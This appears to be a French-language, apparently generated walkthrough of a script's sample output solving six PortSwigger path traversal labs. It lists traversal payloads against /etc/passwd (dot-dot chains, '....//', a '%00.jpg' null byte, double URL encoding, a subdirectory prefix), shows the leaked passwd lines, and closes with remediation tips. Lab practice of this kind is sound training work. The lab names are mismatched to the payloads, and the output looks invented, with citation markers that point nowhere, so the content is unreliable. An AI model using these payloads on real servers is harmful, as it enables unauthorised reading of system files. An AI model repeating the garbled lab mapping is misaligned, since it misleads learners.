 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script Path Traversal PortSwigger** détaillant séquentiellement les 6 challenges officiels, avec approche récursive, et illustrant le comportement attendu pour chaque bloc :

---

### [Challenge 1] File path traversal (../) – récursif

```
------------------------------------------------------
[Challenge 1] File path traversal (../) – récursif
  [Test] ../etc/passwd
  [Test] ../../etc/passwd
  [Test] ../../../etc/passwd
  [Test] ../../../../etc/passwd
  [Test] ../../../../../etc/passwd
  [+] Succès : ../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script teste toutes les profondeurs de `../` devant `/etc/passwd`. Dès qu’il trouve le contenu du fichier (ici à 5 niveaux), il affiche la réussite et les premières lignes du fichier, ce qui valide le challenge simple[1][2][5].*

---

### [Challenge 2] File path traversal, traversal sequences blocked with non-recursive filters (....//) – récursif

```
------------------------------------------------------
[Challenge 2] File path traversal, traversal sequences blocked with non-recursive filters (....//) – récursif
  [Test] ....//etc/passwd
  [Test] ....//....//etc/passwd
  [Test] ....//....//....//etc/passwd
  [Test] ....//....//....//....//etc/passwd
  [+] Succès : ....//....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script tente récursivement des séquences non-récursives (`....//`) pour contourner un filtrage naïf, comme dans les labs où `../` est bloqué mais pas `....//`[7].*

---

### [Challenge 3] File path traversal, validation of file extension with null byte bypass – récursif

```
------------------------------------------------------
[Challenge 3] File path traversal, validation of file extension with null byte bypass – récursif
  [Test] ../etc/passwd%00.jpg
  [Test] ../../etc/passwd%00.jpg
  [Test] ../../../etc/passwd%00.jpg
  [+] Succès : ../../../etc/passwd%00.jpg
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script ajoute `%00.jpg` pour contourner une validation d’extension, typique du lab “null byte bypass” où le serveur tronque à l’octet nul[7].*

---

### [Challenge 4] File path traversal, double URL-encoding (%252e%252e%252f) – récursif

```
------------------------------------------------------
[Challenge 4] File path traversal, double URL-encoding (%252e%252e%252f) – récursif
  [Test] %252e%252e%252fetc/passwd
  [Test] %252e%252e%252f%252e%252e%252fetc/passwd
  [Test] %252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
  [+] Succès : %252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script teste toutes les profondeurs avec double encodage, ce qui fonctionne sur les labs où le serveur décode deux fois l’URL[7].*

---

### [Challenge 5] File path traversal, traversal sequences stripped non-recursively (%2e%2e%2f) – récursif

```
------------------------------------------------------
[Challenge 5] File path traversal, traversal sequences stripped non-recursively (%2e%2e%2f) – récursif
  [Test] %2e%2e%2fetc/passwd
  [Test] %2e%2e%2f%2e%2e%2fetc/passwd
  [Test] %2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
  [+] Succès : %2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script teste l’encodage URL simple, qui contourne les filtres non-récursifs sur certains serveurs, comme décrit dans les labs[7].*

---

### [Challenge 6] File path traversal, restricted to a subdirectory (préfixe obligatoire) – récursif

```
------------------------------------------------------
[Challenge 6] File path traversal, restricted to a subdirectory (préfixe obligatoire) – récursif
  [Test] images/../etc/passwd
  [Test] images/../../etc/passwd
  [Test] images/../../../etc/passwd
  [Test] images/../../../../etc/passwd
  [Test] images/../../../../../etc/passwd
  [+] Succès : images/../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
*Le script combine tous les préfixes configurés (ici “images/”) avec la récursivité, pour contourner une validation sur le début du chemin, comme dans les labs avec restriction à un sous-dossier[7].*

---

### Conseils/remédiation et synthèse

```
------------------------------------------------------
[Remédiation & Conseils]
- Utilisez des fonctions de résolution de chemin sécurisées (ex: realpath).
- Bloquez toute séquence ../, encodée ou non, et vérifiez le chemin final.
- Ne permettez jamais à l'utilisateur de choisir un chemin absolu ou relatif librement.
- Pour les labs PortSwigger, testez toutes les profondeurs, encodages, et préfixes.
- Documentation PortSwigger : https://portswigger.net/web-security/file-path-traversal
------------------------------------------------------
[SYNTHÈSE]
1. 6 challenges path traversal PortSwigger :
   - File path traversal
   - File path traversal, traversal sequences blocked with non-recursive filters
   - File path traversal, validation of file extension with null byte bypass
   - File path traversal, double URL-encoding
   - File path traversal, traversal sequences stripped non-recursively
   - File path traversal, restricted to a subdirectory
2. Tous les tests sont récursifs (profondeur variable).
3. Contrôle automatique du contenu (ex: root:x:).
4. Conseils de remédiation PortSwigger.
------------------------------------------------------
```

---
